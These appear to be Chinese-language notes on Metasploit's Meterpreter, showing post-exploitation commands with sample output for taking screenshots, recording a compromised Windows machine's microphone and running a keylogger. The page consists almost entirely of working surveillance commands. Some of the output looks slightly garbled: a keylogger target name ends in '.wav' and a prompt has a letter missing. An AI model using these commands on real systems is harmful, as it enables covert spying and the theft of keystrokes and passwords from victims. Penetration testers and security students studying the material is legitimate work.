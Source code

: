 # Meterpreter

个人见解：Meterpreter就是cmdshell pro

在Windows上建立Meterpreter需要有PowerShell

## 捕获控制设备信息

### 捕获屏幕

可以使用以下命令捕获屏幕

```
screenshot
```

返回结果

```
eterpreter > screenshot
Screenshot saved to: /home/adian/ooTGibPg.jpeg
```

### 捕获麦克风

命令

```
run sound_recorder
```

默认录制30秒声音，如果需要更长时间，需要使用`-l`参数

```
meterpreter > run sound_recorder
[*] Saving recorded audio to /root/.msf4/logs/scripts/sound_recorder/WIN-ITNJLFM93P3_20210520.1422
[*] Recording a total of 0m 30s
```

## 获取键盘记录

命令

```
run post/windows/capture/keylog_recorder
```

结果

```
[*] Executing module against WIN-ITNJLFM93P3_1.wav
[*] Starting the keylog recorder...
[*] Keystrokes being saved in to /root/.msf4/loot/20210520231706_TestWin7_10.10.10.132_host.windows.key_377741.txt
[*] Recording keystrokes...
[*] User interrupt.
[*] Shutting down keylog recorder. Please wait...
```
